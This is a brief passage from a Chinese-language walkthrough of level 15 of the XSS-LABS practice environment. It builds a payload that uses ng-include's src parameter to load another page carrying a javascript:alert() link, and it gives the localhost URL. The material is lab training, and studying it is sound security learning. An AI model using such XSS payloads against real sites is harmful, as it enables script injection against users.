 - 构造payload。

```shell
# payload 上述语法定义ng-include在作为元素使用时，以src变量接收filename
?src='level1.php?name=<a href="javascript:alert()">Click me</a>'

# url
http://localhost:1996/level15.php?src='level1.php?name=<a href="javascript:alert()">Click me</a>'
```

![image-20220928233633435](XSS-LABS.assets/image-20220928233633435.png)

- 点击Click me，拿下。
